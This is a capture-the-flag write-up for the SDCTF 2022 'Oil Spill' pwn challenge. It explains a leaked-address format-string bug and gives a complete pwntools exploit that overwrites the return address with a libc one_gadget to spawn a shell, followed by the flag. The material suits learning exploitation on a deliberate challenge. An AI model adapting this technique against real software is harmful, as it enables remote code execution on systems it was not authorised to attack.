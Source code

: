 ```yaml
---
title: "[Pwn] Oil Spill [SDCTF 2022]"
date: 2022-05-09 18:39:00
---
```


# 0x0 Introduction

Easy

Darn, these oil spills are going crazy nowadays. It looks like there's a little bit more than oil coming out of this program though...

Connect
nc oil.sdc.tf 1337

By green beans

files: [OilSpill](OilSpill)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

At start of the program, program leak libc address and stack address.

Then, the program uses `(*_reloc.printf)();`. We can use this printf to write whatever we want.

So the exploit would be overwriting the rip with libc one_gadget to get shell.

# 0x3 Exploit

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./OilSpill_patched")
libc = ELF("./libc6_2.27-3ubuntu1.5_amd64.so")
ld = ELF("./ld-2.27.so")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("oil.sdc.tf", 1337)

    return r


def main():
    r = conn()
    if args.R2:
        input("wait")
    x = r.recvuntil(b"\n",drop=True).split(b", ")
    libc.address = int(x[0],16) - libc.sym["puts"]
    rip_address = int(x[2],16) + 0x148
    print("rip addr",hex(rip_address))
    print("libc base addr",hex(libc.address))
    one_gadget = libc.address+0x10a2fc
    print("one_gadget",hex(one_gadget))
    r.sendlineafter(b'clean it?\n',fmtstr_payload(8,{rip_address:one_gadget},write_size='short'))
    r.recvuntil(b"Proposition")
    r.interactive()


if __name__ == "__main__":
    main()

```

# 0x4 Flag

sdctf{th4nks_f0r_S4V1nG_tH3_duCk5}